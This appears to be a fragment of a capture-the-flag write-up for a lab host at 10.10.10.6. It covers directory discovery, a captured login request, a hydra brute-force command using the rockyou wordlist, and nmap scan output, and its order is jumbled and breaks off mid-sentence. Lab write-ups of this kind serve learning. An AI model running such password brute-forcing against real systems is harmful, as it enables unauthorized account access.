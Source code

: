 
We run `dirbuster` and we discover `/torrent` folder.

We capture our first attempt:

```
POST /torrent/login.php HTTP/1.1
Host: 10.10.10.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.6/torrent/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Cookie: /torrent/=; /torrent/index.php=; /torrent/torrents.php=; /torrent/login.php=; /torrent/torrents.phpfirsttimeload=1; PHPSESSID=4f6b28bd82717b32a62abde7b68df23a
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

So we can run bruteforce attack with `hydra`:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-form-post://10.10.10.6/torrent/login.php:username=^USER^&password=^PASS^:Invalid login" -v -V
```

We get no luck.

We simply register 
# Nmap 7.80 scan initiated Sun Jun 27 10:38:07 2021 as: nmap -p- -T4 -oN 01_nmap.txt 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sun Jun 27 10:38:33 2021 -- 1 IP address (1 host up) scanned in 26.69 seconds
```

```
# Nmap 7.80 scan initiated Sun Jun 27 10:39:24 2021 as: nmap -p22,80 -A -T4 -oN 02_nmap_withA.txt 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.042s latency).
